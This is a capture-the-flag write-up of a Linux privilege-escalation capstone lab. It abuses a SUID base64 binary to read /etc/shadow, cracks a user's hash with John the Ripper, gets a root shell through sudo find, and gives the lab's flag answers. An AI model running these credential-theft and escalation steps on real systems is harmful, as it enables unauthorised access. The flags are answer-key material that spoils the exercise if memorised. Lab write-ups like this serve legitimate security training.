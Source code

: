 ## Linux Privilege Escalation: Capstone Challenge Solution


## What is the content of the flag1.txt file?

1. Let's gather info first about the machine
```
history
whoami
uname -a
uname -r 
/proc/version
/etc/issue
ps
sudo -l
ls
id
ifconfig
netstat -a
netstat -at
netstat -au
netstat -l 
env
```

![Screenshot 2024-02-12 at 10 52 50 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/93885557-a88e-46b1-afec-ce37ae12a6da)

2. Let's go to /home where we will discover that there are two other users `missy` and `rootflag`. From the history we know that the flag2.txt is in rootflag user. So chances are the `flag1.txt` is in `/home/missy`.

3. Let's first try checking if there is a kernel exploit.

![Screenshot 2024-02-12 at 10 57 42 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/0816430f-bb90-4de7-84c3-25b1230dba59)

Let's make a quick look for a kernel exploit for version. `3.10.0-1160.el7.x86_64`

4. Let's check for sudo rights `sudo -l`. Unfortunately `leonard` has no sudo rights. 
![Screenshot 2024-02-12 at 11 07 07 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2c027c13-d03b-4e63-afc9-2f180c7868a0)

5. Check for SUID privileges.

`find / -type f -perm -04000 -ls 2>/dev/null`

![Screenshot 2024-02-12 at 11 10 10 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/7e65ff32-4be2-47e8-84ed-04bc072516c1)

There are multiple binaries which our current user has SUID access. Let's go to [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid) to check if we can exploit any of these for root access.

We can exploit `base64` to read `/etc/passwd` and `/etc/shadow` and find information about user `missy`. Unfortunately we can't find any info about `rootflag` in these files. 

```bash
LFILE=/etc/passwd
base64 "$LFILE" | base64 --decode
```
**missy:x:1001:1001::/home/missy:/bin/bash**

```bash
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
**missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::**

6. Let's try cracking the password for `missy`. Create a local file `passwd.txt` and `shadow.txt` and copy the content from the target machine.

7. Unshadow the files:
   
   ```bash
   unshadow passwd.txt shadow.txt > passwords.txt
   ```
   
9. Run john the ripper on `passwords.txt`. Where we find that the password for `missy` is **Password1**
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

9. Now on the target machine let's switch user to `missy` and use the password **Password1
```bash
su missy
cd /home/missy/Documents
cat flag1.txt
```

![Screenshot 2024-02-12 at 11 36 34 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/4ae12f6d-b4d0-424f-9526-b129ffe82e1b)

**Answer: THM-42828719920544**


## What is the content of the flag2.txt file?

1. Continuing from what we have done above, the current user is now `missy`. Let's check her privileges by running `sudo -l`
![Screenshot 2024-02-13 at 12 00 14 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/115e5260-e0a4-4719-a074-86f4977579ca)

2. We find out that user `missy` has sudo priviliges for `find`. Looking at [https://gtfobins.github.io/#+sudo](https://gtfobins.github.io/#+sudo), we discover we have sudo exploits for the `find` binary.
![Screenshot 2024-02-13 at 12 04 23 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/b4620444-2758-4034-a842-5c9e403eb604)

3. Let's execute what we have found in GTFObins which will spawn a terminal with root privileges. 
```bash
sudo find . -exec /bin/sh \; -quit
```
![Screenshot 2024-02-13 at 12 06 17 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/eb86560c-67b6-4bb0-b3a2-90ab9eb5462a)

4. Now let's find out the content of `flag2.txt `which is found in `/home/rootflag`

![Screenshot 2024-02-13 at 12 08 15 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/518b0142-04f4-43c8-bb93-848a65b03672)

**Answer: THM-168824782390238**


